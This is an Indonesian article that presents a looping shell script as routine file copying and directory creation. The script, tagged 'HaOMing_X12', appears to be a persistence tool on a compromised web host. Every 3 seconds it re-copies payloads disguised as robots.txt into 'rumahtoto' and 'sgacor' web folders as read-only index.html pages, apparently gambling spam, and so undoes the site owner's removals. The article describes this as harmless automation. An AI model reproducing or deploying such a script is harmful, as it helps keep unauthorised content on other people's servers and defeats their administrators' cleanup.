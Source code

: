 # **Mengelola Script Shell untuk Manipulasi File dan Pembuatan Direktori**

Artikel ini menjelaskan cara menggunakan script shell untuk menyalin file, mengubah izin file, dan membuat direktori secara otomatis dengan penjadwalan.

## **Deskripsi Script**

Script ini dirancang untuk menjalankan tugas-tugas berikut setiap 3 detik:
1. Menyalin file `robots.txt` dari direktori tertentu ke lokasi lain dan mengubah izinnya.
2. Membuat direktori baru dan menyalin file `robot.txt` ke dalamnya, lalu mengubah izinnya.

### **Fungsi Script**
- **Menyalin File**: Menyalin `robots.txt` ke `index.html` dalam direktori lain.
- **Membuat Direktori**: Membuat direktori baru dan menyalin file `robot.txt` ke dalamnya.
- **Mengubah Izin File**: Mengatur izin file menjadi `444` (read-only) setelah menyalin.

## **Script Shell**

```sh
#!/bin/sh
#HaOMing_X12
while true
do
    # Copy file
    cp /home/stiatab2/public_html/vendor/ifsnop/robots.txt /home/stiatab2/public_html/rumahtoto/index.html

    chmod 444 /home/stiatab2/public_html/rumahtoto/index.html
    
    # Create directory
    mkdir /home/stiatab2/public_html/sgacor

    cp /home/stiatab2/public_html/vendor/robot.txt /home/stiatab2/public_html/sgacor/index.html

    chmod 444 /home/stiatab2/public_html/sgacor/index.html

    sleep 3
done
